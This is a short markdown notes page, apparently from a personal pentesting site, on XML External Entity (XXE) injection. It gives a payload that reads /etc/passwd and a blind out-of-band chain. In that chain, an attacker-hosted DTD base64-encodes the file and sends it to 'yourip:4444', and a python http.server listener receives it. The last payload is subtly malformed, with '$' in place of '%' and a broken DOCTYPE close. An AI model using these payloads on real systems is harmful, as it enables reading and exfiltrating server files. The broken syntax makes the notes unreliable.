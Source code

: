 ```yaml
---
layout: post
title: 'Notes | XXE'
permalink: /notes/web/xxe/
---
```


# [](#header-4)Normal
XXE is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data.

We can make a XML file like:
{% highlight plain %}
<?xml  version="1.0" encoding="utf-8"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
<author>&xxe;</author>
{% endhighlight %}
##### We can use many **wrappers** instead of *file:*. 

# [](#header-4)Blind
If we don't have any output from the page we can make this:

- First create a XML file in our machine, which will execute the code.
{% highlight plain %}
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd" >
<!ENTITY % poc "<!ENTITY &#37; xxe SYSTEM 'http://yourip:4444/value=?%file;'>" >
{% endhighlight %}

- Start a http.server
{% highlight plain %}
> python3 -m http.server 4444
{% endhighlight %}

- Upload a similar file to the victim:
{% highlight plain %}
<?xml  version="1.0" encoding="utf-8"?>
<!DOCTYPE XXE [
	<!ENTITY % remote SYSTEM "http://attackerIp:4444/data.xml" >
	%remote;
	$poc;
	$xxe;
>]>
{% endhighlight %}